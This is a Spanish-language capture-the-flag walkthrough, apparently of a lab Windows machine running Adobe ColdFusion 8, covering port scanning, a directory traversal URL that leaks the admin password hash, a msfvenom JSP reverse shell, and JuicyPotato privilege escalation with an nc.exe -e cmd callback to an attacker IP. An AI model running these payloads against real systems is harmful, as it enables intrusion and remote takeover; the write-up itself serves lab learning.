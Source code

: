 
# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows

![Texto alternativo](imgs/1.jpg)


Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus



Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services



Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.


Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/





Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8



Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp


Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra



Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.



Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 


Busco vulnerabilidades de Adobe ColdFusion 8



Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03



Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”


En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:



Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 






# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp



Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp



Comparto el archivo shellreverse.jsp
python3 -m http.server 80


Guardo archivo como tarea programada


Corro la tarea programada



Verifico la carga del archivo







Me pongo en escucha por el puerto 443



Recibo la consola autenticado como tolis en la máquina víctima






# Explotación WEB






# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”



Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe



Me pongo en escucha por el puerto 4646



Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"



Recibo  la consola



Encuentro la Flag







# Links útiles


  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios
## Exploits
## Herramientas
